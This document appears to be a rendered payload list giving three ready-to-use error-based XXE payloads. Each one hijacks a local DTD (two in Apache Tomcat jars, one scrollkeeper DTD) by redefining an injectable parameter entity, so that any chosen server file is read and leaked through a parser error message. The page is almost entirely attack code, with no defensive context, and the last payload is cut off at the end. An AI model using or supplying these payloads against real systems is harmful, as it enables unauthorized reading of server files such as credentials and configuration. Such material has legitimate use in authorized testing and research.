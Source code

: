 **DTD File:** `/usr/local/tomcat/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd`

**Injectable entity:** `%URI`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/local/tomcat/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd">

    <!ENTITY % URI '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/usr/local/tomcat/lib/tomcat-coyote.jar!/org/apache/tomcat/util/modeler/mbeans-descriptors.dtd`

**Injectable entity:** `%Boolean`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/local/tomcat/lib/tomcat-coyote.jar!/org/apache/tomcat/util/modeler/mbeans-descriptors.dtd">

    <!ENTITY % Boolean '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd`

**Injectable entity:** `%url.attribute.set`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd">

    <!ENTITY % url.attribute.set '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
```